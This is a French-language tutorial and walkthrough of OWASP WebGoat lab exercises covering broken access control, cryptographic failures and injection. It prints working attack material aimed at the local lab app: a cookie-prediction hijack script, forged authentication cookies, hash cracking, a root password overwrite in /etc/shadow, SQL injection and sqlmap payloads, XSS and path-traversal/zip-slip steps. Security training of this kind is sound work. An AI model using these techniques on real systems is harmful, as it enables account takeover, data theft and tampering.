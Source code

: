 
# Découverte OWASP

# **Découverte des vulnérabilités référencées par l’OWASP**

Dans ce document nous découvrirons un ensemble de vulnérabilités classées par l’OWASP et leur détection dans le cadre d’un « pen-testing ».

L'OWASP (Open Worldwide Application Security Project) est une association mettant en avant les différentes failles connues sur les applications (principalement web) et les moyens de s'en protéger. L'organisme effectue un classement régulier des vulnérabilités les plus exploitées sur Internet pour former les testeurs de sécurité à leur détection et les développeurs à leur compréhension et à la correction du code.

L'OWASP propose divers projets, et nous nous intéresserons ici au sujet principal : le classement des **10 vulnérabilités les plus exploitées sur Internet**. Pour effectuer cette étude, nous nous baserons sur le site officiel de l'OWASP et sur une application répertoriant des exemples des différents types de vulnérabilités étudiées. L’application WebGoat est ainsi développée par l’OWASP pour comprendre les différents types de vulnérabilités et leurs impacts.

Nous travaillerons ainsi sur les **5 premières vulnérabilités** du top 10 de l'OWASP (version 2021, car ce classement est actualisé tous les 4 ans).

**Les vulnérabilités de l’OWASP**

L'OWASP classe les vulnérabilités en catégories spécifiques :

- **A01:2021 - Broken Access Control**
- **A02:2021 - Cryptographic Failures**
- **A03:2021 - Injection**
- **A05:2021 - Security Misconfiguration**

    Chacune de ces catégories correspond à un ensemble de « faiblesses » **CWE (Common Weakness Enumeration)** qui définissent des causes probables de vulnérabilités futures.

L'organisation à but non lucratif **MITRE** est à l'origine des classifications des différentes faiblesses, dans le but de définir les vulnérabilités connues à surveiller en urgence : les **CVE (Common Vulnerability and Exposure / Common Vulnerability Enumeration)**.



>En 1999, MITRE a établi une classification des menaces permettant de se protéger et de configurer les équipements IDS pour prévenir l'exploitation des menaces récentes sur les systèmes d'information.

- Les CVE possèdent un identifiant unique permettant de retrouver une vulnérabilité et un contexte précis d’exploitation (version du programme touché, système d’exploitation touché, CWE liées à ce type de vulnérabilité, risques encourus)
- Les CWE classent de manière générique les types de vulnérabilité et leurs impacts sur les systèmes touchés.

Ce document n’étant pas un remplaçant du site officiel de l’OWASP, celui-ci devra être utilisé tout au long de l’étude pour comprendre les différentes implications des vulnérabilité et faiblesses étudiées.

Nous étudierons ici les outils utiles à la réalisation des test effectués dans l’application WebGoat. Ainsi que quelques astuces vous permettant de progresser dans cet apprentissage.

Installation de l’application WebGoat

J’utiliserais ici l’application dans un conteneur sur une machine Kali Linux pour avoir à portée de main les différents outils permettant de tester mon application.

```bash
apt install docker.io
docker pull webgoat/webgoat
docker create -ti —name webgoat -p 8080:8080 -p 9090:9090 -e TZ=Europe/Paris webgoat/webgoat

```

Pour les premières leçons de l’application WebGoat, vous aurez besoin d’utiliser les outils de développeur de votre navigateur, en appuyant sur la touche f12 de votre clavier une partie outils développeurs apparaît sur la page.

![images/image1.png](images/image1.png)

1. (A1) Broken Access Control
    
    <aside>
    
    *Hijack a session*
    
    > Le session Hijacking est le fait de voler la session d’un autre utilisateur, il repose la plupart du temps sur l’utilisation d’un moyen d’authentification autre que le nom et le mot de passe de l’utilisateur (comme un cookie d’authentification).
    >
    <details>
    <summary>- Hijack a session - 5</summary>
        
   Dans la partie storage vous trouverez les cookies liés à la page sur laquelle vous vous connectez. Pour la première leçon (Hijack a session) il s’agit de deviner le cookie d’un utilisateur.
        
   Pour réaliser ce challenge je note le cookie récupéré par l’utilisateur julien :
   > 🍪  Hijack_cookie : 999666930232324123-1739829095375
   
   Puis je supprime le cookie et remplie à nouveau le formulaire pour comparer son cookie :
        
   > 🍪  Hijack_cookie : 999666930232324124-1739829895548
        
   En répétant l’opération à de multiple reprises je remarque que certains numéros sont sautés pour le premier nombre. Un cookie a donc été donné à un autre utilisateur, je peux donc utiliser cette valeur comme base pour trouver le cookie de l’utilisateur. En effectuant une recherche sur internet sur la deuxième valeur je constate qu’il s’agit d’un timestamp depuis l’époque unix (1 janvier 1970). Je peux donc tenter la première valeur trouvée en réduisant le timestamp d’une unité depuis que le cookie à été trouvé. En procédant ainsi je suis sûr de pouvoir trouver le cookie d’un utilisateur. Je pourrais donc utiliser le script suivant pour trouver le cookie à coup sûr :
        
   ```bash
        #!/bin/bash
        if [[ -z $1 ]] || [[ -z $2 ]] || [[ -z $3 ]] || [[ -z $4 ]] || [[ -z $5 ]] || [[ -z $6 ]] ; then { 
          echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        	echo "-s JSESSIONID"
        	echo "-u username"
        	echo "-p password"
        	echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        	exit 1
        }
        fi
        options="$1 $3 $5"
        case $options in
        	"-s -u -p")
        			session=$2
        			user=$4
        			password=$6
        			;;
        	"-s -p -u")
        			session=$2
        			user=$6
        			password=$4
        			;;
        	"-u -s -p")
        			session=$4
        			user=$2
        			password=$6
        			;;
        	"-u -p -s")
        			session=$6
        			user=$2
        			password=$4
        			;;
        	"-p -s -u")
        			session=$4
        			user=$6
        			password=$2
        			;;
        	"-p -u -s")
        			session=$6
        			user=$4
        			password=$2
        			;;
        	*)
        			echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        			echo "-s JSESSIONID"
        			echo "-u username"
        			echo "-p password"
        			echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        			exit 1
        			;;
        esac
        a=0
        jsession=$(curl -si "http://127.0.0.1:8080/WebGoat/login" -d "username=$user&password=$password" -v 2> /dev/null | grep JSESSIONID | cut -d "=" -f 2 | cut -d ";" -f 1)
        while true; do {
        	hijack1=$(curl -si "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=$user&password=password" -b "JSESSIONID=$jsession" -L -v 2> /dev/null| grep hijack_cookie | cut -d "=" -f 2 | cut -d ";" -f 1)
        	#echo "session=$jsession"
        	#echo "cookie=$hijack1"
        	current=$(echo $hijack1 | cut -d "-" -f 1)
        	if (($a != 0 )); then {
        		if [[ $current != $predict ]]; then {
        			echo "actuel: $current, prévu: $predict"
        			time=$(echo $hijack1 | cut -d "-" -f 2)
        			for ((i=0;i<30;i++)); do {
        				jsession=$session
        				time=$(($time - 1))
        				hijack2="$predict-$time"
        				curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L -v 2> /dev/null | grep Sorry > /dev/null
        				if (( $? != 0 )); then {
        					echo "bingo: $hijack2"
        					curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L
        					break
        				}
        				fi
        			}
        			done
        			break
        		}
        		fi
        	}
        	fi
        	predict=$(($current + 1))
        	a=1
        }
        done
   ```
        
   Le script se connecte au serveur avec les identifiants entrés à l’exécution puis récupère un hijack_cookie auprès du serveur, il incrémente ensuite le permier nombre pour prédire la valeur du prochain cookie. Si le prochain cookie possède la valeur prévue il recommence l’opération jusqu’à ce que le cookie obtenu ne soit pas celui qui était prévu. A partir du moment ou ce cookie est identifié on décrémente la valeur du deuxième nombre (le timestamp) d’une unité pour trouver le cookie attendu.
        
   L’opération est répétée une trentaine de fois ce qui était suffisant lors de mes tests.
        
    </aside>
    </details>    
    <aside>
    
    *Insecure Direct Object Reference*
    
    > L’IDOR est un type de vulnérabilité permettant à un attaquant d’utiliser une information propre à un utilisateur pour pouvoir accéder aux données d’autres utilisateurs ( il s’agit la plupart du temps d’un identifiant lié à l’utilisateur connecté).
    > 
    
    > Pour cette partie  j’utiliserais le logiciel ZAP (Zed Attack Proxy) créé par l’OWASP. Ce logiciel agit comme serveur proxy et permet d’intercepter les connexions pour les analyser, ou les répéter avec des paramètres différents. Je serais ainsi capable de modifier les requêtes et pour tromper le serveur web sur lequel je me connecte.
    > 
    > 
    > Une fois lancé j’utiliserai le navigateur intégré à Zaproxy pour me connecter à webgoat.
    > 
    > ![images/image2.png](images/image2.png)
    >
    <details> 
    <summary> Insecure Direct Object References - 3 </summary>
        
   Dans zap je peux observer la réponse reçue :
        
   ![images/image3.png](images/image3.png)
    </details> 
    <details>
    <summary> Insecure Direct Object References - 5 part 1 </summary>
        
   je récupère la requête avec zap et la répète pour en modifier le contenu :
        
   ![images/image4.png](images/image4.png)
        
   Je choisirais Open/Resend with Request Editor pour modifier la requête :
        
   ![images/image5.png](images/image5.png)
        
   Puis en testant plusieurs identifiant utilisateurs en décrémentant et incrémentant l’identifiant de tom je trouve celui de l’utilisateur Buffalo Bill.
     </details>
    <details>
    <summary> Insecure Direct Object References - 5 part 2 </summary>
        
   Pour la dernière partie l’objectif étant de modifier la requête http nous devons trouver un moyen d’envoyer des modifications, je modifie donc la méthode de la requête http :
        
   ![images/image6.png](images/image6.png)
        
   Ici la méthode POST n’est pas autorisée mais je découvre 2 méthodes : PUT et GET qui sont autorisées. Je teste donc avec la méthode PUT :
        
   ![images/image7.png](images/image7.png)
        
   Cette fois le media-type n’est pas autorisé mais le content-type est application/json, je le modifie donc et tente d’envoyer les modifications demandées :
        
   ![images/image8.png](images/image8.png)
        
   Le profile de l’utilisateur Buffalo Bill est modifié.
     </details>     
    </aside>
    
    <aside>
    
    *Missing Function Level Access Control*
    
    > Il s’agit toutes les fonctions, autres que l’IDOR. Permettant à un utilisateur d’obtenir des accès au données ou aux droits d’autres utilisateurs.
    >
    <details> 
    <summary> Missing Function Level Access Control - 2 </summary>
        
   Nous devons trouver un menu caché, pour cela nous pouvons utiliser les outils développeurs web du navigateur:
        
   ![images/image9.png](images/image9.png)
        
   Nous découvrirons ici 2 catégories cachées dans la page (attention elles sont sensibles à la casse)
     </details>
     <details>
    <summary> Missing Function Level Access Control - 3 </summary>
        
   En utilisant à nouveau zaproxy je tente de faire un get sur la page users trouvée précédemment 
        
   ![images/image10.png](images/image10.png)
        
   A nouveau le type d’application ne semble pas correspondre (je modifierais pour application/json :
        
   ![images/image11.png](images/image11.png)
        
   La liste des utilisateurs récupérée j’obtiens le hash de l’utilisateur jerry.
     </details>
     <details>
    <summary> Missing Function Level Access Control - 4 </summary>
        
   Dans la dernière partie les développeurs ont corrigé le problème en autorisant seulement les administrateurs à accéder aux informations. J’utiliserais donc une technique semblable à celle utilisée dans la leçon sur l’IDOR pour obtenir les droits administrateurs :
        
   ![images/image12.png](images/image12.png)
        
   La requête semble fonctionner mais le password n’est pas pris en compte :
        
   ![images/image13.png](images/image13.png)
        
   N’ayant pas d’accès à la page users-admin-fix je passe le compte julien que j’utilise pour effectuer l’élévation de privilèges :
        
   ![images/image14.png](images/image14.png)
        
   La page users-admin-fix devient accessible :
        
   ![images/image15.png](images/image15.png)
     </details>     
    </aside>
    
    <aside>
    
    *Spoofing an Authentication Cookie*
    
    > Dans cette partie il s’agira de deviner la méthode utilisée pour créer des cookies d’authentification et de l’utiliser pour se créer un cookie valable pour se connecter avec les droits d’un autre utilisateur.
    >
    <details> 
    <summary> Spoofing an Authentication Cookie - 2 </summary>
        
   J’observe le cookie spoof_auth obtenu et remarque qu’il semble être en encodage base64, je tente donc de le décoder :
        
   ```bash
        echo "NDM2YzdhNTU3NzYxNTk0ZjY3NzA3NDYxNmY2NzYyNjU3Nw==" | base64 -d
        436c7a557761594f677074616f67626577
   ```
        
   Le résultat semble être un code hexadécimal :
        
   ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p
        ClzUwaYOgptaogbew
   ```
        
   J’observe la présence du login/motdepasse présent dans la chaîne de caractère produite en inversé :
        
   ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p | rev
        webgoatpgOYawUzlC
   ```
        
   Je vérifie avec le login admin et constate le même résultat, il me suffit donc d’inverser le procéder pour créer un cookie pour n’importe quel utilisateur dont je connais le login :
        
   ```bash
        echo -n tompgOYawUzlC | rev | xxd -p | base64 NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQK
   ```
        
   Suite à différents test je me rend compte qu’un retour à la ligne corromps la chaîne de caractère je supprime donc le retour à la ligne avant d’encoder en base64 :
        
   ```bash
        echo -n "tompgOYawUzlC" | rev | xxd -p| tr -d '\n'|base64
        NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQ=
   ```
     </details>     
    </aside>
    
2. (A2) Cryptographic Failures
    
    <aside>
    
    *Crypto Basics*
    
    > Les méthodes de chiffrement, encodage, et hachage sont couramment utilisées par les application pour authentifier les utilisateurs , transmettre leurs données et les sécuriser. Pourtant les méthodes utilisée peuvent ne pas être adaptées et conduire à une compromission des données. De même les technologies utilisées doivent faire l’objet d’une veille constante et être mises à jour dès que nécessaire.
    >
    <details>
    <summary> Crypto Basics - 3 </summary>
        
   J’utiliserai CyberChef sur internet :
        
   ![images/image16.png](images/image16.png)
        
   Ici je tente de bruteforcer le ou exclusif pour récupérer le mot de passe après avoir décoder les caractères en base64. En effet l’opération « ou exclusif » s’exécute en binaire et peut convertir certains caractères dans des code binaire non interprétables par un terminal, le résultat de l’opération est donc encodé en base64(attention le mot de passe trouvé n’est pas dans la casse attendue par le formulaire).
   <details>
    <summary> Crypto Basics - 4 </summary>
        
   je choisirais ici le programme hashcat pour pouvoir cracker le hash proposé :
        
   ```bash
        hashid -m '21232F297A57A5A743894A0E4A801FC3'
        hashcat -m 0 '21232F297A57A5A743894A0E4A801FC3' /usr/share/wordlists/rockyou.txt 
   ```
        
   ```bash
        hashid -m '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9'
        hashcat -m 1400 '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9' /usr/share/wordlists/rockyou.txt
        
   ```
   </details>
   <details>
    <summary> Crypto Basics - 6 </summary>
        
   J’ enregistre la clé privée donnée dans fichier nommé private.rsa , puis je génère une clé publique correspondante :
        
   ```bash
        openssl rsa -in private.rsa -pubout > pub.rsa
   ```
        
   depuis la clé publique j’extrait le modulus :
        
   ```bash
        openssl rsa -in pub.rsa -pubin -modulus -noout | cut -d "=" -f 2 > modulus.txt
   ```
        
   puis je sign le modulus en sha256 en utilisant la clé privée :
        
   ```bash
        cat modulus.txt | tr -d '\n' | openssl dgst -sha256 -sign private.rsa | base64
   ```
     </details>
     <details>
    <summary> Crypto Basics - 8 </summary>
        
   J’extrais le fichier shadow du conteneur pour obtenir le droit d’accès sur le fichier puis je déchiffre le message grâce à la passphrase :
        
   ```bash
        docker cp youthful_hodgkin:/etc/shadow .
        pass=$(openssl passwd -6 poseidon) && sed -i "/root/ s/\*/$pass/" shadow
        docker cp shadow youthful_hodgkin:/etc/shadow
        docker exec -ti youthful_hodgkin bash
        su –
        cat default_secret
        echo "U2FsdGVkX199jgh5oANElFdtCxIEvdEvciLi+v+5loE+VCuy6Ii0b+5byb5DXp32RPmT02Ek1p f55ctQN+DHbwCPiVRfFQamDmbHBUpD7as=" | openssl enc -aes-256-cbc -d -a -k ThisIsMySecretPassw0rdF0rY0u
        
   ```
        
    </aside>
    
3. (A3) Injection
    
    <aside>
    
    *SQL Injection (intro)*
    
    > L’injection SQL est un type de vulnérabilité permettant à un attaquant de sortir du cadre prévu par l’application pour interroger sa base de données. Il devient possible (la plupart du temps par le biais de formulaires html dont les entrées ne sont pas assez restrictives) d’accéder à d’autres informations stockées dans la base de donnée, voir de les modifier.
    >
    <details> 
    <summary> SQL Injection (intro) - 10 </summary>
        
   Après différents essais le champs login_count ne semble pas vulnérable aux injections SQL, mais User_Id peut être injecté :
        
   ![images/image17.png](images/image17.png)
     </details>
     <details>
    <summary> SQL Injection (intro) - 11 </summary>
        
   Le même principe est utilisable dans cette leçon en utilisant les commentaires sql :
        
   ![images/image18.png](images/image18.png)
     </details>
     <details>
    <summary> SQL Injection (intro) - 12 </summary>
        
   Nous utiliserons le même concept mais en ajoutant cette fois une commande de mise à jour de la table :
        
   ```sql
        'update employees set salary=91000 where userid=37648; --
   ```
     </details>
     <details>
    <summary> SQL Injection (intro) - 13 </summary>
        
   Nous utiliserons le même principe d’enchaînement des requêtes pour supprimer la table des logs :
        
   ![images/image19.png](images/image19.png)
     </details>    
    </aside>
    
    <aside>
    
    *SQL Injection (advanced)*
    <details>
    <summary> SQL Injection (advanced) - 3 </summary>
        
   ```sql
        ';select * from user_system_data; --
   ```
        
   En essayant de réaliser l’injection suivante :
        
   ```sql
        ' union select password from user_system_data –
   ```
        
   Je remarque que le nombre de colonnes ne correspond pas :
        
   ![images/image20.png](images/image20.png)
        
   Il faudra donc faire correspondre le nombre de colonne de la deuxième requête avec la première (une * donc toutes les colonnes de la première table) :
        
   ```sql
        ' union select null,password,user_name,null,null,null,null from user_system_data –
   ```
        
   ![images/image21.png](images/image21.png)
     </details>
     <details>
    <summary> SQL Injection (advanced) - 5 </summary>
        
   J’utiliserais l’outil sqlmap pour tester les différents types d’injection sql disponibles, après avoir testé les pages challenge_login et challenge deux injection sont possibles sur le paramètre username_reg :
        
   ```bash
        sqlmap -u http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge --data="username_reg=test&email_reg=bob%40mail.com&password_reg=po&confirm_p assword_reg=test" --cookie="JSESSIONID=0txqnMhhofk6DP1OdGeKIItd8yPCW95jNQUolcwn" --method PUT --level 5 --risk 3 -p username_reg
   ```
        
   ![images/image22.png](images/image22.png)
        
   En utilisant la technique boolean-based blind j’arrive à déterminer si une requête sql obtient une réponse positive ou non :
        
   ![images/image23.png](images/image23.png)
        
   Ici le résultat de la requête n’est pas considérée comme vraie , il n’y a donc pas de conflit avec un utilisateur existant, le système considère qu’il peut créer le compte.
        
   En effectuant un test avec les différentes lettres je trouve celle-ci :
        
   ![images/image24.png](images/image24.png)
        
   Cette fois le retour de la requête est positif, la première lettre du mot de passe est un t. Il suffit dont de tester les différentes lettres pour trouver le mot de passe complet.
        
   Pour cela j’utiliserais le programme burpsuite en forçant les caractères à utiliser dans ce paramètre. La fonctionnalité intruder de burp permettra d’effectuer cette manipulation.
        
   Burp joue le rôle de proxy tout comme zap et je l’utiliserais dans un premier temps pour capturer le trafique envoyé par mon navigateur (attention de bien gérer les paramètres de proxy du navigateur, les ports à utiliser puisque WebGoat utilise le port 8080 qui est aussi celui par défaut de burp, de plus il faut penser que le navigateur n’utilise pas de proxy pour se connecter à une adresse en 127.0.0.1, il faudra donc utiliser l’adresse IP de la machine hôte pour pouvoir se connecter à l’interface de webgoat).
        
   ![images/image25.png](images/image25.png)
        
   Je choisi ensuite d’envoyer cette requête vers l’intruder :
        
   ![images/image26.png](images/image26.png)
        
   Puis je modifie la requête pour envoyer différents paramètres à la chaîne :
        
   ![images/image27.png](images/image27.png)
        
   Le paramètre username_reg test ici si la longueur du mot de passe est égale à num (ce qui ne peut pas être vrai puisqu’on fait ici une comparaison entre un entier et une chaîne de caractères. Attention pour que la requête puisse être envoyée il faudra convertir la valeur du paramètre en encodage url :
        
   ![images/image28.png](images/image28.png)
        
   Et il ne reste plus qu’a sélectionner le paramètre à tester en choisissant « add payload position »:
        
   ![images/image29.png](images/image29.png)
        
   Un panneau de paramétrage de la payload apparaît, je choisis des nombres à incrémenter de 1 entre 1 et 50 pour déterminer la longueur du mot de passe de tom :
        
   ![images/image30.png](images/image30.png)
        
   Dans la partie settings j’ajoute un Grep – Match avec une expression présente dans la réponse à ma requête si le résultat est vrai (User {0} already exists …), je choisi ici le mot exists :
        
   ![images/image31.png](images/image31.png)
        
   Il ne me reste plus qu’à lancer l’attaque et à observer la colonne exists :
        
   ![images/image32.png](images/image32.png)
        
   Le mot de passe à donc 23 caractères.
        
   Il est possible cumuler deux payload avec burp intruder pour tester les différentes combinaisons de caractères pour la première lettre du mot de passe, puis toutes les combinaisons de caractères pour la deuxième lettre et ainsi de suite pour les 23 caractères du mot de passe. Pour cela je choisi un type d’attaque Cluster bomb attack, puis je désigne la partie position de substring comme étant un nombre incrémenté de 1 entre 1 et 23 :
        
   ![images/image33.png](images/image33.png)
        
   Je paramètre ensuite la deuxième payload comme étant un caractère entre a et z (ma requête analyse seulement les caractères en minuscule pour gagner du temps, il sera ensuite possible de tester la casse une fois le mot de passe connu) :
        
   ![images/image34.png](images/image34.png)
        
   Il n’y a plus qu’a lancer l’attaque et voir si nous récupérons une partie des 23 caractères (si certains caractères manquent nous pourrons tester les caractères spéciaux et nombres) :
        
   ![images/image35.png](images/image35.png)
        
   Quand l’attaque est finie nous optenons le mot de passe :
        
   thisisasecretfortomonly
     </details>
    </aside>
    
    <aside>
    
    *Cross Site Scripting*
    
    > Le XSS (Cross Site Scripting), consiste à injecter (la plupart du temps dans un formulaire, mais l’injection pourrais aussi se faire dans les entêtes html, les cookies etc.) un script javascript exécuté sur la machine d’un client. Il est ainsi possible d’exécuter du code sur la machine d’un autre utilisateur se connectant au site vulnérable. La plupart du temps le code exécuté sur la machine de la victime visera à lui voler des informations d’authentification stockées dans les cookies par exemple.
    On distinguera ici les XSS nécessitant de tromper l’utilisateur en lui envoyant un lien générant du code malveillant et une Stored XSS étant stockée dans la base de donnée du server, ou ses fichiers.
    >
    <details>
    <summary> Cross Site Scripting - 7 </summary>
        
   Nous pouvons tester d’envoyer le code :
        
   ```jsx
        <script> alert("hello")</script>
   ```
        
   Dans les différentes parties du formulaire. Si une fenêtre apparaît en indiquant le message hello, vous avez trouvé le champ vulnérable.
     </details>
     <details>
    <summary> Cross Site Scripting - 10 </summary>
        
   en analysant le code GoatRouter.js dans la partie debugger de la console developer du navigateur on trouve une route test
     </details>
     <details>
    <summary> Cross Site Scripting - 11 </summary>
        
   en allant dans un nouvel onglet et en appelant :
   [http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test](http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test/)/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
        
   Un message contenant un numéro s’affiche dans la console du navigateur
        
   Le message envoyé à la route test est :
        
   ```jsx
        <script>webgoat.customjs.phoneHome()</script>
   ```
        
   Mais les caractères spéciaux sont encodés pour être correctement interprétés par le navigateur.
     </details>     
    </aside>
    
    <aside>
    
    *Cross Site Scripting (stored)*
    <details>
    <summary> Cross Site Scripting (stored) - 3 </summary>
        
   Nous pourrons directement inclure notre payload sans avoir besoin de l’encoder, cette fois la payload est sauvegardée dans les données du site (certainement dans une base de donnée) et dès qu’un utilisateur accède à la page le script est exécuté.
   </details>     
    </aside>
    
    <aside>
    
    *Path traversal*
    
    > La Path traversal est un type de vulnérabilité permettant à l'attaquant de changer l’endroit ou les données d’un serveur web sont lues ou écrites. Il devient ainsi possible pour l’attaquant de lire des fichiers qui n’appartiennent pas au champs de l’application concernée, voir de modifier des fichiers systèmes.
    >
    <details>
    <summary> Path traversal - 2 </summary>
        
   Nous devons envoyer une image sur le serveur lorsque le formulaire est utilisé normalement nous avons :
        
   ![images/image36.png](images/image36.png)
        
   On peut remarque que le nom choisi apparaît dans le chemin de stockage de l’image, nous pouvons influer sur le chemin en changeant le nom pour ../hello
     </details>
     <details>
    <summary> Path traversal - 4 </summary>
        
   Le problème à ici été corrigé.
   Le nom n’apparaît plus dans le chemin de stockage de l’image, mais le nom de l’image lui-même est utilisé tel quel. Nous pouvons donc modifier le nom de l’image pour choisir sa destination. J’utiliserais ici la fonction répéteur de burp pour modifier le nom de l’image :
        
   ![images/image37.png](images/image37.png)
     </details>
     <details>
    <summary> Path traversal - 5 </summary>
        
   En analysant les requêtes avec burp on trouve l’url :
        
   le paramètre id=10 permet d’exploiter un path traversal à l’aide d’encodage url : 
        
   ```bash
        /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret
   ```
        
   Le .jpg est ajouté automatiquement à chaque requête
     </details>
     <details>
    <summary> Path traversal - 7 </summary>
        
   Pour cette dernière partie le chemin de l’image qui est contenu dans le fichier zip doit contenir le path traversal. Ici il faudra recréer le chemin que nous voulons écraser : mkdir -p challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/ copier une image dans le dernier répertoire
        
   ```bash
        ls challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/
        image.jpg
        puis rentrer dans deux niveaux de répertoires :
        cd challenge7/home
        enfin compresser l’image avec un chemin relatif :
        zip file.zip ../../home/webgoat/.webgoat-2023.8/PathTraversal/julien/image.jpg
   ```
        
   En envoyant le fichier zip l’image extraite le sera à l’endroit choisi !
   </details>     
    </aside> 
